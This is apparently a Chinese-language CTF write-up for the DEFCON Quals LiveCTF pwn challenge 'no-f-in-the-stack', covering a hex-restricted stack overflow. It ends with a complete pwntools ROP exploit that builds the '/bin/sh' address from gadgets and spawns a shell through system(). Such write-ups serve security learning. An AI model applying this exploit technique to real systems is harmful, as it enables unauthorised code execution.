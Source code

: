 ```yaml
---
date: 2025-05-14 10:21:56
layout: post
title: \[Unfinished\] DEFCON Quals LiveCTF writeup
subtitle: 
description: >-
    之前一直是队友做 gadget 题，导致 Rosayxy 这块非常缺乏练习，在本次比赛中尝到了血的教训
image: >-
  /assets/img/uploads/cat_asleep.jpg
optimized_image: >-
  /assets/img/uploads/cat_asleep.jpg
category: half-finished
tags:
  - pwn
  - gadgets
  - defcon
author: rosayxy
paginate: true
---
```

这次是 Rosayxy 首打 defcon quals！    
嗯 其实感觉至少 liveCTF 这块没有想象中的难，至少题目都还能逆，然后也都有思路，也没有像 SECCON FINAL/今年阿里云CTF 里面一些完全没思路的题    
当然能不能在规定时间做出来就是另一码事了（流泪）   
LiveCTF 是有6场，每场限时4h，安排如下：   
![alt_text](/assets/img/uploads/livectf_schedule.jpg)

对于 LiveCTF 评价如下，图为打完之后的吐槽，确实最后一道 gadget 题感觉放大水了，但是确实思路没想到（问题在我，之前一直感觉 gadget 题很 dirty 而且不太好玩，所以复现的时候偷懒，而且比赛的时候基本都是队友做...这次终于尝到了血的教训，流泪）         


![alt_text](/assets/img/uploads/livectf_sad.png)     

## Chall 6 - no-f-in-the-stack
没错，这就是那个 gadget 题目   
给了一个栈溢出，要求是 ropchain 里面所有项的 hex 表示没有 a - f 的字符，具体限制是用 `scanf("%lu",...)` 读入 ropchain 中的一项，然后用 `sscanf(printed_addr, "%lx", &stack[i])` 的方法，把 dec 当成 hex 解析然后输出到栈上   

它 `system` 和 `/bin/sh` 的地址都给出了，但是当时没往 `system("/bin/sh")` 的方向想，是因为 `/bin/sh` 的地址是 0x4A04F9，感觉绕不过去 orz   

然后就在尝试在栈上写 `sh\x00` 然后把 rdi 指向它，我们从 main 返回时 rdi 指向栈的较低地址，从而需要找 gadget 升栈   
尝试的方法是把 rsi 控制成升栈的大小，然后用 `add edi, esi` 来升栈    
**但是**，`add edi, esi` 指令会清除掉 edi 的高位，所以 rdi 此时也不是栈地址，所以就 gg 了    

### writeup
nu1l 战队的方法如下，参考 [youtube 的讲解](https://www.youtube.com/live/5Pr7JL89ZV4?si=2V1lwVVoF_I1aTyv)    
大概方法是有 `add rax, rdi; ret` 的 gadget，分两次把 rax 加成 `/bin/sh` 的地址，然后用 `mov rdi, rax; call system` 来调用 system 即可      
```py
from pwn import*
pop_rdi_rbp_ret = 402218
pop_rsi_r15_rbp_ret = 402216
call_system = 401917
system_rax = 401914 # mov rdi, rax; call system
ret = 401965
call_read = 416157 # 需要 rdi + 0x74 是2 这样就可以避免syscall 传参数之类的了
mov_rax_rsi = 405186
deref_rax_ret = 482601
add_edi_esi = 493943 # add edi, esi ; add eax, dword ptr [rax] ; ret
add_rax_rdi = 471885

context(log_level = "debug", arch = "amd64", os = "linux")
p = process("./challenge")
for i in range(5):
    p.recvuntil("Addr pls: ")
    p.sendline(str(300000000)) # 不然 i 会被改掉 就不知道写在啥地方去了

binshell = 0x4A04F9
binshell_1 = 250489
binshell_2 = 250070

payload = [pop_rdi_rbp_ret, binshell_1, 1, add_rax_rdi, pop_rdi_rbp_ret, binshell_2, 1, add_rax_rdi, system_rax]

for i in payload:
    p.recvuntil("Addr pls: ")
    p.sendline(str(i))

# gdb.attach(p,"b* 0x0401A54")
# pause()
p.recvuntil("Addr pls: ") # trigger return
p.sendline("0")

p.interactive()
```

## Chall 5 - TODO
最近忙着一些其他事情 ~ 有时间一定好好复现    
